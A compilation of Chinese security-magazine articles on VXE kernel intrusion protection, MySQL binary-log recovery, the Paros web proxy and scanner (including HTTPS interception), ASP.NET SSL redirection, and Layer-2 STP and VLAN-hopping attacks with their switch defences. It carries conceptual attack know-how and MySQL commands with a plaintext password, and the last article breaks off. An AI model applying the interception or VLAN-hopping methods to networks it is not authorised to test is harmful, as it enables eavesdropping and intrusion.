图1～图4这四张图解释了VXE技术的原理。图1是操作系统中传统运行模式的示意图；图2则说明在传统运行模式下通过SMTP服务的缺陷，可能危及系统中所有的服务程序；图3显示利用VXE技术将系统中每个服务单独保护起来运行，可以提高系统的整体安全性；图4说明采用了VXE技术，即使SMTP服务存在缺陷，甚至被攻击者控制，由此产生的最大威胁也仅仅是SMTP服务本身，不会危及其他服务和整个操作系统安全。


图4

从以上示意图中不难发现，VXE技术的根本目的就是尽量缩小存在缺陷的程序或服务对整个系统带来的威胁，将风险控制在一定范围内，从而实现操作系统入侵保护。

### VXE安装使用

VXE最新版本支持2.2.x以上的Linux内核版本。在安装VXE之前，Linux必须首先安装如下程序：

- Linux Kernel开发包。
- Perl语言环境，Perl的默认目录路径为`/usr/bin/perl`，如果Perl没有安装在默认目录路径，必须做相关链接。
- Tclx，Tclx默认目录路径为`/usr/bin/tcl`，如果Tclx没有安装在默认目录路径，必须做相关链接。
- 正常运行的HTTP服务。

手动建立一个临时目录，将VXE压缩包解压缩到该临时目录中。在正式安装VXE之前，还需要了解以下系统信息：

- Linux Kernel Source，通常在`/usr/src/linux`目录下。
- CGI目录路径，推荐将VXE在CGI目录中运行，例如`/home/httpd/cgi-bin/Vxe`。
- VXE二进制代码及VXE安装路径，推荐安装在`/usr/local/vxe`下。
- Kernel Log日志文件路径，推荐安装在`/var/log/kernel`下。
- VXE CGI脚本地址，推荐安装在`/cgi-bin/vxe`下。

以上目录需要用户手动创建，VXE安装脚本本身不会自动创建以上目录。如果Linux系统中没有Kernel Log文件，则必须修改syslogd配置文件。在`/etc/syslog.conf`文件中加入参数`kern.* /var/log/kernel`即可，然后重新初始化syslogd。做好上述准备工作后，正式安装VXE很简单，只需要运行`./vxepatch.pl`命令即可完成编译安装。

在Linux内核中需要配置VXE。在内核二进制源目录中运行`make menuconfig`命令，使VXE在“General Settings”子菜单有效，并且重新编译内核。注意，`make clean`这一步十分重要，当选择VXE开启或关闭时，请不要跳过此步骤。

```bash
# ./vxe tracesum,vxt /bin/date date
```

重新启动新编译的内核，然后检查VXE是否在内核中起作用。进入`/usr/local/vxe`目录，运行命令并检查`/var/log/kernel`。如果出现相关信息，则表示VXE在内核中已经开始起作用（如TraceSum相关日志）。

最后，通过浏览器检查VXE的运行情况。在浏览器中输入`http://yourhost-address/cgi-bin/vxe/cvxe.tcl`，如果一切正常，将会出现VXE的页面。

VXE在系统中的运行方式包括直接运行和自动运行两种方式。直接运行方式即传统的带参数程序运行方式，使用“`vxed + 路径 + 执行参数`”即可对子系统进行约束。

自动运行方式稍微复杂一些。Linux系统管理员需要运行VXE应用工具将VXE加入到Linux内核中，让`vxe`进程能自动运行；通过浏览器界面，管理员能方便地对VXE进行自动运行设置。

关于VXE的详细管理、使用和操作方法，VXE压缩包和VXE官方主页中提供了图文并茂的用户手册。限于篇幅，这里不再详细介绍。实际上通过浏览器顺利进入`http://your-host-address/cgi-bin/vxe/cvxe.tcl`页面，则操作就相当简单了。用户可以根据不同需求直接通过浏览器对VXE进行操作，并可以阅读VXE日志，更好地保护自己的Linux系统。

本文也希望让Linux系统管理员接受这样两个概念：一是Linux系统及其子系统的安全需……要坚持 PoLP，二是要实现主动地入侵保护，而不是要等到攻击事件发生后再设法挽救。我们可以通过精确地设置 VXE 来加强 Linux 系统安全保护，这是 Linux 操作系统不可缺少的必要入侵保护手段。

前置知识：Linux  
关键词：网管、MySQL、数据恢复

#### 利用日志进行 MySQL 数据库实时恢复

文：李晨光


在对 MySQL 数据和表格结构进行备份时，mysqldump 是一个非常有用的工具。通常情况下一般是一天一备份，但如果在刚备份完成的一段时间以内数据出现丢失，那么这些数据将可能无法恢复。有什么方法可以及时对数据进行保护呢？事实上，现在有几种方法都可以实现，这里介绍其中一种，即使用二进制日志进行数据恢复。

在一个服务器中，当 SQL 事务执行时，二进制日志可以记录所有 SQL 事务。考虑到服务器的性能，有些系统管理员会把所有日志都最小化。事实上，平均而言二进制日志对服务器性能的影响只有 1%。作为回报，这种性能的牺牲却可以换来实时的数据恢复功能。

二进制日志记录一台服务器上所有 SQL 执行事务。通过使用 mysqlbinlog 工具，二进制日志文件中的内容可以被轻松提取出来，其中的 SQL 语句也可以被轻松地重新执行。要将二进制日志功能设为可用，可以在服务器选项文件（可能是 /etc/my.cnf，取决于用户所用的系统）的 [mysqld] 组中加入“log-bin=/var/log/mysql/bin.log”。

##### 设置二进制日志

注意，这里使用的确切路径取决于文件系统和用户参数。一般情况下，还需要创建相应的目录用于存放日志，并且根据所使用的文件系统对目录的所有权和许可情况进行更改。基于安全性的考虑，建议将备份数据的日志文件放在一个单独的硬盘驱动器中。上述文件的后缀 log 将被 6 个数字自动替代。用户可以对日志做限制，使其只对某个特定的数据库进行记录，或者在日志中忽略某些特定的数据库。有关日志文件的细化调整信息，可以查看相关文档：http://dev.mysql.com/doc/mysql/en/binary-log.html。  
在上述选项文件中创建相应的记录以后，一般需要重新启动 MySQL 服务器以使其生效。

除了使用 mysqldump 等工具进行常规备份以外，一般还需要将二进制日志和备份进行同步。在进行备份时，可以通过 flush 日志来实现这一功能。可以将类似以下的语句加入 cron 或类似的程序调度工具中：“mysqladmin -u root -pmypwd flush-logs”。

mysqladmin 工具是用于 flush 服务器日志的，也可以通过在 MySQL 客户端中执行 `FLUSH LOGS` 语句来实现相同的功能。

##### 简单的数据恢复

虽然有时略显单调乏味，但每天备份和运行二进制日志的确是一个在 MySQL 服务器中恢复数据的不错方法。比如可以每天在深夜使用 mysqldump 对数据进行备份，如果某天在数据备份完成后的一段时间里，由于某种原因数据丢失，可以使用以下方法来对其进行恢复。

首先停止 MySQL 服务器，然后使用以下命令重新启动 MySQL 服务器。该命令将保证唯一可以访问该数据库服务器的人：

```bash
# mysqld --socket=/tmp/mysql_restoresock \
  --skip-networking
```

这里，`--socket` 选项将为 UNIX 系统命名一个不同的 Socket 文件。Windows 系统中则需要提供一个管道名称，比如 `MySQL_restore`，而不是路径和文件名。可以使用以下命令：

```bash
# mysqld-nt --enable-named-pipe \
  --socket=MySQL_restore --skip-networking
```

但在非 Windows NT 的 Windows 系统中，因为无法命名管道，所以需要使用 TCP/IP。这种情形下可以使用 `--port` 选项对非 3306 端口进行监听。用户可以选择任何没有被其他任务所使用的非特权端口。这里，`--skip-networking` 选项的目的是阻止用户通过 TCP/IP 和 Socket 文件或管道来访问服务器，即本服务器只能从本地进行连接。一旦服务器处于独占控制之下，就可以放心地对数据库进行操作，而不用担心在进行数据恢复的过程中有用户尝试访问数据库而导致更多的麻烦。进行恢复的第二个步骤是恢复晚上备份好的 dump 文件：

```bash
# mysql -u root -pmypwd --socket=/tmp/mysql_restoresock \
  < /var/backup/20100122.sql
```

该命令可以将数据库的内容恢复至晚上刚刚完成备份时的内容。要恢复 dump 文件创建后的数据库事务处理，可以使用 mysqlbinlog 工具。如果每天晚上进行备份操作时都对日志进行 flush 操作，则可以使用以下命令行工具将整个二进制日志文件进行恢复：

```bash
# mysqlbinlog /var/log/mysql/bin123456 | mysql -u root -pmypwd --socket=/tmp/mysql_restoresock
```

上述操作完成后，以没有临时 Socket 文件和网络限制的方法重新启动 MySQL 服务器。经过以上步骤之后，数据将恢复到前一步备份的状态，并且此后执行的所有 SQL 语句也将被恢复。要获知最新二进制日志的名字，可以查看包含在日志文件目录中的文件列表。

##### 手工恢复

在上述情形中，假设需要恢复所有的服务器数据，而要进行恢复操作的原因是由于执行 SQL 语句误删有用数据，那么简单地使用二进制日志文件进行完全恢复将只会重复所犯的错误。对于这种情况，一种比较好的解决办法是运行上述 mysqlbinlog，不过不要把结果直接导入 MySQL，而是将其导入文本文件之中。在将该文件导入 MySQL 之前可以对其进行编辑。重定向 mysqlbinlog 的输出可以使用以下命令：

```bash
# mysqlbinlog /var/log/mysql/bin123456 > /tmp/mysql_restore.sql
```

该命令将会在 /tmp 目录中生成一个简单的文本文件。需要注意的是，不要使用 Word 等字处理器对该文件进行编辑，因为字处理器会在文件中添加一些二进制格式码，这些格式码在导入 MySQL 时可能导致一些问题。在删除不需要的 SQL 语句并保存好恢复文件后，就可以在 MySQL 客户端中使用以下命令进行恢复操作：

```bash
# mysql -u root -pmypwd --socket=/tmp/mysql_restoresock \
  < /tmp/mysql_restore.sql
```

##### 针对某一时间点的恢复

在 MySQL 5.1 版本中，mysqlbinlog 被添加进一些附加选项，使得从二进制日志文件进行恢复的过程更加简单，并且不需要再进行手工更改，其中就有 `--start-date` 和 `--stop-date` 选项。假设用户在 2010 年 1 月 20 日上午 10 点执行的 SQL 语句删除了一个大的数据表，则可以使用以下命令进行恢复：

```bash
# mysqlbinlog --stop-date='2010-01-20 9:59:59' /var/log/mysql/bin123456 | mysql -u root -pmypwd --socket=/tmp/mysql_restoresock
```

该语句将恢复所有给定 `--stop-date` 日期之前的操作，即恢复到该时间点之前的数据。如果在执行某 SQL 语句数小时之后才发现执行了错误操作，那么可能还需要恢复之后输入的一些数据。这时，也可以通过 mysqlbinlog 来完成该功能：

```bash
# mysqlbinlog --start-date='2010-01-20 10:0:00' /var/log/mysql/bin.123456 | mysql -u root -pmypwd --socket=/tmp/mysql_restore.sock
```

该命令中 SQL 语句记录的 10:01 以后的内容将会被恢复。这样，与前面提到的 dump 文件恢复，以及两个 mysqlbinlog 命令相结合，就可以恢复上午 10 点以前和 10:01 以后的所有操作和数据。当然，还需要检查日志以保证使用的是准确时间。

##### 用 Position 参数恢复

除了使用特定时间恢复以外，还可以使用 `--start-position` 和 `--stop-position` 两个 mysqlbinlog 选项。这两个选项的功能和 `--start-date` 与 `--stop-date` 类似，不过它要求给出的是可以在日志中找到标识位置的数字。

相比而言，使用位置的方法是一种更精确的恢复方法。为了决定位置的数字，可以使用 `--start-date` 与 `--stop-date` 就错误事务处理执行的某一特定时间段来运行 mysqlbinlog，并且将结果重定向到一个文本文件中进行检查。命令行的形式如下所示：

```bash
# mysqlbinlog --start-date='2010-01-20 9:55:00' \
  --stop-date='2010-01-22 10:04:00' /var/log/mysql/bin.123456 > /tmp/mysql_restore.sql
```

该命令会在 /tmp 目录下创建一个小的文本文件，该文件中会有执行错误 SQL 时间段里的所有 SQL 语句。使用文本编辑器打开该文件，然后找到那个不想再执行的 SQL 语句。一旦知道需要中止和重新开始恢复过程的位置，记下位置数字。位置的标识是 `log_pos` 后跟随的一个数字。恢复备份文件可以执行类似以下的命令行：

```bash
# mysqlbinlog --stop-position='36832' /var/log/mysql/bin.123456 | mysql -u root -pmypwd --socket=/tmp/mysql_restore.sock
# mysqlbinlog --start-position='36835' /var/log/mysql/bin.123456 | mysql -u root -pmypwd --socket=/tmp/mysql_restore.sock
```

第一个命令会恢复停止位置前的所有事务，第二个命令会恢复从开始位置处到二进制日志结束的所有内容。

##### 小结

对于一个标准安装的 MySQL，通过二进制日志完全恢复任何时刻丢失的数据是一件非常简单、快捷的事情。当然，如果无法忍受使用该方法的要求，比如在进行恢复操作时要锁住其他用户等，也可以使用其他方法来保护数据，比如使用 Replication（http://dev.mysql.com/doc/mysql/en/replication.html）。

前置知识：无  
关键词：Paros

#### Paros 3.2.13 在 Windows 平台下的使用指南

文/图：古典娃娃 [N.S.T]


##### 什么是 Paros？

Paros 是一款使用 Java 编写的 Web 安全测试工具，支持多种操作系统，个人感觉 Paros 的使用非常方便。最新的版本是 2005 年发布的 3.2.13（见图1），虽然有些历史了，但依然很强悍！


图1

##### Paros 在 Windows 平台下的安装

- 1. 确保 Java 运行时环境（JRE）1.4（或以上）的安装。如果没有，请到 http://www.java.com/zh_CN/ 下载并安装它。  
- 2. 从黑客防线网站下载 Paros 程序文件。对于 Windows 版本，只需按安装程序中的指示操作，然后快捷方式被创建，单击桌面快捷方式来运行程序。  
- 3. 对于 UNIX 或其他平台，手动解压缩所有文件到一个新的目录中，单击 Jar 文件来运行程序。  
- 4. Paros 使用两个端口：8080 端口为代理连接，8443 端口为内部 SSL 握手。因此，要确保这两个端口不能被其他应用程序使用。您可以在“选项”选项卡上更改端口和其他设置。  
- 5. 打开网页浏览器，为 HTTP 和 HTTPS 配置代理名称为“localhost”和代理端口“8080”。请注意 8443 端口是 Paros 本身使用的，而不是浏览器在使用。  

##### 浏览器设置

### 1. IE 浏览器

IE 浏览器的代理设置如图3～图5所示。


图3


图4

##### Paros 设置

对 Paros 的设置基本上都在 tools 菜单的 Options（见图2）选项里面。可以自定义代理 IP 地址、代理端口、代理用户名和密码、最大抓取的深度、同时扫描的主机数量、每个网站的扫描线程并发数等，个人使用的话使用默认设置就 OK 了。


图2

##### MITM（Man-in-the-middle）Proxy


图5

### 2. Firefox 浏览器

Firefox 浏览器的代理设置如图6、图7所示。

中间人代理（MITM Proxy）是 Paros 最有特色的功能了，在攻击 HTTP 的时候该功能还不是很明显，因为普通的嗅探器、抓包工具都可以捕获 HTTP 的内容。但是对 HTTPS 的攻击就不一样了，使用普通的抓包工具捕获到的 HTTPS 包都是乱码（见图8），因为 HTTPS 使用了 SSL 或 TLS 的加密。面对加密的内容我们就无法进行下一步的分析了，这时候 Paros 的 MITM Proxy 就派上用场了。

经过使用 Paros 的 MITM Proxy，即使目标网站使用了 HTTPS，我们也能很明了地看到 Request（见图9）和 Response（见图10）的内容。


图6


图7


图8


图9


图10

##### Encode/Hash

在 Tools 菜单里面有一个小工具是 Encode/Hash，就是可以做 URL 加密解密、Base64 加密解密、求 SHA1 Hash、求 MD5 Hash 等功能的工具（见图13）。


图13

##### Spider（蜘蛛）

Spider 功能就是爬行了，单击 Analyse 菜单里面的 Spider 命令，接着在弹出对话框中单击 start 就开始爬行了（见图11）。这项功能可以帮助我们快速理清网站的目录结构，Paros 会把 during crawl 和 out of crawl scope 的 URL 分开来（见图12）。


图11


图12

##### Manual Request Editor

我们可以利用 Manual Request Editor（手动请求编辑器）来发各种 HTTP 包，包括 GET、POST、PUT、HEAD 等。在 request 选项卡（见图14）里面定义我们要发的内容，单击右下角的 Send 按钮，就可以在 response 选项卡（见图15）里面看到网站返回的信息了。


图14


图15

##### Scanner 扫描器

单击 Analyse 菜单里面的 scan all 是扫描 Sites 框里面的所有网站，scan 是扫描在 Sites 框里面选中的网站。Scan Policy 是扫描规则。Paros 的扫描规则分为 information gathering（信息收集）、client browser（客户端浏览器）、server security（服务器安全）、miscellaneous（其他类型）、injection（注入）等五大类（见图16）。

在图17所示的 Alerts 框里面可以看到扫描的结果，在右上框里面有 raw view（原视图）和 tabular view（表格视图）两种视图。


图16


图17

##### 查看报告

若想查看报告，就单击 Report 菜单里面的 Last Scan Report，Paros 可以生成 HTML 格式的报告（见图18），报告中包括 Description（漏洞描述）、URL（漏洞地址）、Parameter（漏洞参数）、Solution（修复方法）、Reference（参考信息）等（见图19）。


图18


图19

##### 保存和导出结果

- 1. 保存所有结果  
  单击 File 菜单中的 save as 命令可保存文件，Paros 保存的结果分为 7 个文件（见图20），下次要使用的时候可以用 Paros 再次打开。  

- 2. 保存某次 request 和 response 的内容  
  单击 File 菜单中的 `export messages to file` 命令，可保存某次 request 和 response 的内容为文本（见图21）。  

- 3. 保存 response 的内容为 HTML  
  单击 File 菜单中的 `export response to file` 命令，保存 response 的内容为 HTML（见图22）。  


图20


图21


图22

前置知识：无  
关键词：网管、SSL、HTTPS

#### 安全 SSL 访问的实现方法详解

文/图：Winbo


在网络上，信息在传递过程中会经过其他计算机。随着网上支付的不断发展，人们对信息安全的要求越来越高。一般情况下，中间的计算机不会监听路过的信息。但在使用网上银行或者进行信用卡交易的时候有可能被监视，从而导致个人隐私的泄露。因此 Netscape 公司提出了 SSL 协议，旨在达到在开放网络上安全保密地传输信息的目的，这种协议在 Web 上获得了广泛的应用。

在网络安全应用过程中，经常会遇到和 SSL 相关的问题。下面列举两个典型的 SSL 开发应用，详细剖析 SSL 安全应用的内部奥秘。

## 揭开SSL安全开发的神秘面纱

SSL又叫安全套接层（Secure Sockets Layer）协议，是一种在客户端和服务器端之间建立安全通道的协议。SSL协议使用不对称加密技术实现会话双方之间信息的安全传递，可以实现信息传递的保密性、完整性，并且会话双方能鉴别对方身份。不同于常用的HTTP协议，我们在与网站建立SSL安全连接时使用HTTPS协议，即采用`https://ip:port/`的方式来访问。IETF对SSL作了标准化，即RFC2246，并将其称为TLS（Transport Layer Security）。


图1

在上面的数据中，可以看到“SSL v3”“Certificate”等字眼，这里就是SSL通信过程。SSL安全套接层协议包括服务器认证、客户端认证（可选）、SSL链路上的数据完整性和数据保密性。在实际应用中，SSL主要使用公开密钥体制和X.509数字证书技术保护信息传输的机密性和完整性。

- 认证用户和服务器，使它们能够确信数据将被发送到正确的客户端和服务器上。  
- 加密数据以隐藏被传送的数据。  
- 维护数据的完整性，确保数据在传输过程中不被改变。

对于电子商务应用来说，使用SSL可保证信息的真实性、完整性和保密性。电子商务网站、银行网站或证券公司的网站，这样的应用也应该差不多。这里列举几个典型应用，看看其中有什么玄机。

## 应用ASP.NET实现SSL安全转向应用

银行的网站包括了机密性页面（比如网上支付金额），也包括了非机密页面（比如某些业务介绍页面）。因此有的页面需要SSL，有的页面不需要SSL。对于某些安全性较高的网页，如网上支付或用户登录页面，可能会使用到`https`（SSL/TLS）来提高安全性，而其他页面则不需要。


图2

那么，如何自动快速地在HTTPS和HTTP之间进行切换呢？下面介绍如何在ASP.NET中强制某action使用https，以及如何进行向https页面的跳转。这里写了一个`RequireHttpsAttribute`，作用是将非https连接转换成https连接，这样使用该filter的controller都会强制使用https连接。

```csharp
public class RequireHttpsAttribute : AuthorizeAttribute
{
    // 重写OnAuthorization方法
    public override void OnAuthorization(AuthorizationContext filterContext)
    {
        if (!filterContext.HttpContext.Request.IsSecureConnection)
        {
            string path = filterContext.HttpContext.Request.Path;
            // ...
        }
    }
}
```

```csharp
string host = System.Configuration.ConfigurationManager.AppSettings["HostName"];
string port = System.Configuration.ConfigurationManager.AppSettings["HttpsPort"];
if (port != null)
    host = String.Format("{0}:{1}", host, port);
filterContext.HttpContext.Response.Redirect(string.Format("https://{0}{1}", host, path));
```

第1行：AuthorizeAttribute类，代表一个属性，用来限制访问者对Action方法的访问。  
第3行：OnAuthorization()方法，当请求一个认证时会调用此方法；AuthorizationContext类用来封装AuthorizeAttribute类常用的一些信息。  
第5行：如果已经是https连接则不处理，否则重定向到https连接。  
第7行：获取当前请求的Path路径。  
第8行：从web.config中获取host，也可以直接从httpContext中获取。  
第9行：从web.config中获取https的端口。  
第12行：如果端口号为空表示使用默认端口，否则将host写成host:port的形式。  
第13行：重定向到https连接。

> 小知识：MVC框架。ASP.NET MVC是微软官方提供的MVC模式编写ASP.NET Web应用程序的一个框架，官方网址为 http://www.asp.net/mvc。

由于https和http服务使用不同的端口号，而且https不能绑定主机头，只能通过不同端口的方式来区分各个站点，所以这里将host和port信息写到web.config里，以方便配置。在web.config的appSettings节点加入如下信息即可。

```xml
<appSettings>
  <add key="HostName" value="localhost"/>
  <add key="httpsPort" value="443"/>
</appSettings>
```

HttpsPort可以不写，将使用默认的443。然后在要使用https连接的controller或action前加上`[RequireHttps]`，如：

```csharp
[RequireHttps]
public ActionResult About()
{
    return View();
}
```

这样，当我们用`http://localhost/Home/`访问该页面时，会自动跳到`https://localhost/Home`。但这样还有一个问题：网页中的链接都是http的，当单击进入需要使用https连接的网页时都要进行一次Redirect，所以要将网页中的链接也改成https。其实只需要将view中所有链接到https页面的`Html.Action()`使用适当的重载方法来写即可。

ASP.NET提供了两种重载可以将protocol设置为https。在新建ASP.NET MVC Web Application后默认生成的站点中，shared文件夹下有site.master文件，其中有个指向`/Home/About`的ActionLink，原来是：`Html.ActionLink("Home", "Index", "Home")`。对其进行改写：`Html.ActionLink("About", "About", "Home", "https", "localhost", "", null, null)`，这样生成出来的链接就是https的了，单击以后直接会使用https连接而无需再进行一次Redirect。之后新的要到https页面的链接也可仿照此写法。

在调试过程中，也是一波三折。比如这里就遇到了无法启动HTTP SSL服务的问题。在调网站程序的时候，打开IIS管理器，发现里面的网站目录上有一个红叉，启动网站失败，没有日志记录。再检查“服务”项目，发现IIS Admin已经启动，RPC已启动，但是HTTP SSL无法启动，并提示“与World Wide Web Publishing Service服务相依的HTTP SSL服务因下列错误而无法启动：系统找不到指定的文件”。在服务里面启动“World Wide Web Publishing Service”仍然提示错误。测试过程中发现，出现上面的错误是由于防火墙的原因，在防火墙设置里增加访问设置，问题迎刃而解。

#### 直通编写：尝试另一种安全访问的方法

要解决一个问题，就要发挥刨根问底的精神，把问题彻底解决。这里使用了第三方程序集WebPageSecurity.dll来协助解决SSL的问题。下载地址为：http://www.codeproject.com/KB/aspnet/WebPageSecurity/WebPageSecurity_Src.zip。需要注意的是，输入The Code Project网站（http://www.codeproject.com）的注册账号之后才能下载。具体的实现步骤如下。

第1步：首先将程序集添加到Bin文件夹。编译项目文件包WebPageSecurity，就可以获得WebPageSecurity.dll了，即添加WebPageSecurity.dll到Bin文件夹。

第2步：配置Web.Config，在`<configSections>`节点下加入以下配置：

```xml
<section name="secureWebPages" type="Ventaur.WebSecurity.Configuration.SecureWebPageSettings, WebPageSecurity" />
```

在`<configuration>`节点下加入以下配置：

```xml
<secureWebPages mode="RemoteOnly" ignoreHandlers="WithStandardExtensions">
  <files>
    <add path="Login.aspx" />
    <add path="Legal/Privacy.aspx" />
    <add path="Legal/Copyright.aspx" secure="Ignore" />
  </files>
  <directories>
    <add path="/" recurse="True" />
    <add path="Admin" recurse="True" />
    <add path="Admin/Info" secure="Insecure" />
  </directories>
</secureWebPages>
```

> Mode值主要有以下四种选择情况，分别是On（Default）、RemoteOnly、LocalOnly和Off。其中On（Default）表示来自各个方向的请求使用SSL；RemoteOnly表示来自于远程客户端的请求使用SSL；LocalOnly表示在本地调试时使用；Off表示SSL不可用。

第3步：添加Module到Application，在`<httpModules>`节点下加入以下配置：

```xml
<add name="WebPageSecurity" type="Ventaur.Web.Security.SecureWebPageModule, WebPageSecurity" />
```

第4步：新建基类BasePage.cs，让所有的aspx页面继承于BasePage类。

在上面的代码中，第1行加入secureWebPages配置节点。第2行给具体的页面文件使用SSL加密，默认情况是使用SSL。第5行配置不需要SSL加密的页面，`secure="Ignore"`表示忽略此页面使用SSL加密。第7行给文件夹下的所有文件使用SSL加密。第10行配置不需要SSL加密的文件夹，`secure="Ignore"`表示忽略此文件夹下的所有文件使用SSL加密。

当然，在实际测试过程中，总会遇到这样或那样的麻烦。下面就是测试过程中遇到的一个典型问题。在一台机器上配置好了SSL，由于项目中用到了WebPageSecurity（一个http/https自动切换的httpmodule），所以在web.config文件中做了相应的设定。弄完后测试页面，页面没有自动切换。当时耗费了将近半天时间，最后检查web.config中的配置发现，把`<httpModules>`遗漏了。一查，web.config这个文件里根本没有`<httpModules>`的配置，至此，原因终于大白。通过上述测试，无需在IIS上对每个页面进行配置，SSL加密页面与非SSL页面就可以自动转换了。

前置知识：无  
关键词：网管、OSI模型、STP协议

#### 二层安全的解析与防御


文/图 夜虫儿

关于二层安全，国内涉及的文章不多，但这项研究在国外已经有比较成熟的研究小组。在国内，近几年越来越多的网络安全爱好者都把精力放在了研究七层上的安全。

像我们常见的一些注入攻击、跨站攻击等，这些都是在七层上的应用（OSI七层模型，如图1所示）。下面我们就一起来探讨一下关于二层安全的一些常见的攻击及其防护。


图1

针对二层的攻击，主要是对路由器和交换机实施攻击。目前的攻击方法主要有针对于生成树的攻击、针对VLAN的跳跃攻击、针对MAC地址的攻击、针对DHCP的攻击、针对ARP的攻击和欺骗攻击这六种攻击类型。本文将分别针对每种攻击类型，对其攻击的原理和防护做出一个详细的解析，尽量让大家都能看懂。

##### 针对生成树的攻击（Spanning Tree Attack）

首先大家要对生成树有一个概念，像在一些交换的网络当中经常会形成一个环路，网络当中一旦出现环路，数据信息就会无休止地围绕着某个“环”转来转去，这样就会造成网络拥塞甚至整个网络瘫痪，如图2所示。当R1将数据包传递给R2，R2又传给R3，R3又传给R1后，这样就会无休止地传递下去，形成了网络中的一个环路。


图2

STP就是一种用来解决网络环路的协议。我们知道，每种协议都有自己的工作原理，而STP工作原理中的一条就是选举根交换（这里可以理解成为在众多的交换机当中选举出一个老大），而这个根交换的选举并不是随便产生的，是根据每台交换机的桥优先级来选举的。优先级越小的就越会被选举为根交换。而攻击者的攻击手段就是从这方面下手的：一是让网络产生环路，二是让网络重新选举根交换机，这两种方式都可以造成网络不同程度的瘫痪。

在重新选举根交换机的问题上，本人有深刻的体会。我们家中或者宿舍都有一个网络接口，这个接口就是用来连接电脑这样的终端设备的，与接口上层相连的一般都是一台交换机。而为了达到快速转发数据和加快网络收敛的目的，交换机的端口往往会被配置为Spanning-tree Portfast。但如果配置者对网络安全不懂的话，就容易给攻击者留下安全隐患。攻击者只需要在这个接口上插上一台交换机或者Hub就容易引起网络环路，而如果攻击者把一台交换机的优先级设置成最小的话，再接入到这个接口上，根据前面所说的，网络就会重新选举根交换机，这样就会造成网络出现问题。针对这种类型的攻击，防范的措施主要有BPDU Guard、BPDU Filter、Root Guard、Loop Guard和UDLD五种方式。

不要以为有这么多种防护措施网络中就会很少出现这种攻击，事实并不是的。国内的网络配置者往往会为了快速而忽略了这些防护措施。目前很多的交换接口都没有对此做出防护。大家如果有条件的情况下，可以试试自己所在的网络。下面就针对这五种防护措施做一个简单的介绍，希望那些工作在第一线的网络管理人员能对此有个重视。

### 关于BPDU Guard

BPDU是一种用于在STP协议之间发送的数据包，这里的数据包是异于网络中传输数据信息的数据包。正如前面所说的，一旦交换机的接口被配置成portfast时，必须要在接口下打上`spanning-tree bpduguard enable`这句话，之后这个端口再收到BPDU包后就会进入errdisable状态，从而避免环路。如果没有启用BPDU Guard，那么端口在接收BPDU的时候，STP会让端口进入blocking状态，也就是所谓的监听状态，在监听状态时就会造成网络重新选举根交换。

它的配置方法主要有两种方式：一种是在全局模式下输入`spanning-tree portfast bpduguard default`，一种是在接口模式下输入`spanning-tree bpduguard enable`。两者的共同目的是一致的，都是为了在接口上启用BPDU Guard这个功能，但也有所差别。在全局模式下，接口必须先启用portfast特性才可以；而在接口下则不管是否启用了portfast特性，都可以开启BPDU Guard这个功能。有一点要注意，就是不管怎样，BPDU信息肯定会传递的，否则两者之间就维持不了STP协议了。为此，工作中有个经验就是在连接终端设备的端口上同时启用portfast和BPDU Guard。

### 关于BPDU Filter

根据前面所说的，我们防护的根本就是不让终端端口接上交换机这类的设备，那么现在我们只需要将这个接口设置为不能连接交换机就可以了。而STP是一种用在交换机之间的协议，我们可以通过不让其发送BPDU，这样即使接上了交换机也是没有用的。实现的方法是在接口下输入`spanning-tree bpdufilter enable`，此时当接口再收到BPDU包的时候，就会直接将BPDU包丢弃。

### 关于Root Guard

这项功能主要是为了防止网络中重新选举根交换的。我们所面临的威胁主要是在终端接口上，所以这里就把所有的终端接口全部强制设为指定接口，这样就保护了根交换机，不管接进来的设备的优先权有多少，都没有资格参与根交换的选举。

### 关于Loop Guard和UDLD

这两种功能主要是用在由单向链路产生的环路问题上。关于单向链路如图3所示。交换机A和B在全双工下传递数据，这时B通向A的链路损坏掉，就造成A可以传给B数据，B也能正常接收，但是B无法向A传递数据，这就是一个单向链路的故障。

关于单向链路，虽然也是一个安全的范畴，但其一般不会被攻击者利用，在此也就不去做详细的讲解了。大家只要了解两点就可以了：Loop Guard一般是用于解决由软件问题造成的单向链路，UDLD则一般用于解决由硬件问题造成的单向链路。


## 针对VLAN的跳跃攻击（VLAN Hopping）

首先大家要对VLAN有个认识。VLAN是一种应用在广域网和局域网中的一种虚拟网络技术，个人感觉其在局域网应用最为广泛。使用VLAN的优点就是能加快速度，同时由于不同VLAN间一般是不能相互访问的，提高了网络的安全性。VLAN间的数据都是在干道上进行传递的，而传递的前提会有一个相互协商的过程，只有两台交换机之间相互协商好了，才能互相信任，从而传递和接受对方的数据，如图4所示就是一个拥有4个VLAN的网络拓扑图。


假设VLAN30是学校的财务处，VLAN40是学校的教务处，很明显这两个VLAN中的数据都是一些敏感的数据。通常情况下VLAN10跟VLAN20是没法访问的，这就在一定程度上保证了数据的安全性。

那么针对这种安全，攻击者所提出的想法就是能够访问不同VLAN间的信息，从而达到窃取任何VLAN数据的目的。目前攻击的方法主要有两种：一种是通过协商干道来实施的，一种是通过发送双重802.1Q标记帧来突破，下面分别讲解这两种攻击的方法和怎样去防护。

## 1. 通过协商干道的方式来攻击

上面说过，只有在干道上才能传递不同 VLAN 的数据信息，SW1 跟 SW2 之间的链路就会被协商为一条干道；干道的协商是通过双方互相发送 DTP 帧来实现的，这样就给了攻击者入侵的“把柄”。如果此时 VLAN10 中的用户拿一台交换机接在端口上，在链路之间没有安全配置的情况下，通过发送恶意的 DTP 帧，跟上层交换机相互协商，使其之间的链路成为干道链路，这样就可以访问 VLAN30 的数据了。对于这种攻击的防护比较简单，我们通过 `sw mode access` 这条命令将所有接入端口设置成接入模式即可，关闭其干道功能，因为下面所接的都是些终端设备，没有必要让其传递 VLAN 信息。

## 2. 发送双重 802.1Q 标记帧来实施攻击

要想了解这种攻击，必须先了解一个概念，就是本征帧 VLAN 不打标签。当数据经过第一个交换机时，会自动把帧中的标签去掉。这种攻击有个前提：连接攻击者的交换机的端口所在 VLAN 必须和交换机之间的 native VLAN 相同。下面通过图 5 来讲解一下这种攻击。


